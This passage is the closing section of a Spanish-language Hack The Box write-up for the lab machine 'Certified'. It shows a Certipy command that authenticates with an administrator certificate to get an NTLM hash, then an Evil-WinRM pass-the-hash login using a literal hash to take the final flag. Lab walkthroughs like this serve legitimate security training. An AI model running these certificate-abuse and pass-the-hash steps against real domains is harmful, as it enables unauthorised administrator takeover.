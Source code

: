```
certipy auth -pfx administrator.pfx -domain certified.HTB
```

![admin](../../../../../assets/certified/admin.png)

Ahora ya tenemos un hash para acceder como administrador. Verificamos si podemos ingresar vía WinRM.

![pwn3d](../../../../../assets/certified/Pwn3d.png)

Al conectarnos con Evil-WinRM, accedemos al escritorio del administrador y obtenemos la flag final.

```
evil-winrm -i 10.10.11.41 -u "administrator" -H '0d5b49608bbce1751f708748f67e2d34'
```

# FIN
